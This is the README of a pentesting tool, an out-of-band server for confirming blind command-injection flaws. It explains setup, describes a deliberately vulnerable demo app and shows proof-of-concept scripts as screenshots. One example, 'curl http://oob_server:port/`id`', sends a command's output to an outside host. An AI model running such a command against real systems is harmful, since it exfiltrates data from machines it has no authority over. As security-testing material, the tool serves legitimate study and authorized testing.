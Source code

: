 # OOB Server for blind vulns
* Perfect OOB server project:
  
  https://github.com/projectdiscovery/interactsh

* Reference:
  
  https://notsosecure.com/out-band-exploitation-oob-cheatsheet

## How to use?
## server.py
1. change HOST and PORT to your own OOB server's IP address and listen port.
2. start up the OOB server:
```bash
shell$ python3 server.py
```

### Simple Validation:
  
when client to access:
```
http://oob_server:port/geturl
```
the OOB server will generate and response a random URL like:
```
http://oob_server:port/iF9d2k
```
when client to access this random URL, it will create a txt file and logging client's IP.\
and client can access `random_url?m=1` to check this
```
http://oob_server:port/iF9d2k?m=1
```

![image](https://github.com/NinjaGPT/oob_server/assets/4035112/c1880071-2ccb-4d70-ad39-fa649ec9cb34)

### Record Execution Result:
  
when pentester wants to gain the executed result of OS command, can send:
```
curl http://oob_server:port/`id`
```
and then to access following URL to get result:
```
http://oob_server:port/checklog
```
![image](https://github.com/NinjaGPT/oob_server/assets/4035112/14d1c6a4-bfbb-4ef3-b10d-afa074a9ea6a)

## victim.py
a demo of vulnerable Web application.
```
http://victim.com:port/vuln
POST
cmd={command}
```
<img width="633" alt="image" src="https://github.com/NinjaGPT/oob_server/assets/4035112/b1cf3229-c818-4dec-bacc-a948a0bec62b">

## poc.py
Simple Validation POC

![image](https://github.com/NinjaGPT/oob_server/assets/4035112/6f5f7cee-b56d-4b93-9ade-dcb2d5c481f6)


## response_poc.py
Gain Execution Result POC

![image](https://github.com/NinjaGPT/oob_server/assets/4035112/245b8e28-1587-4821-b11b-4efed3d1a78f)
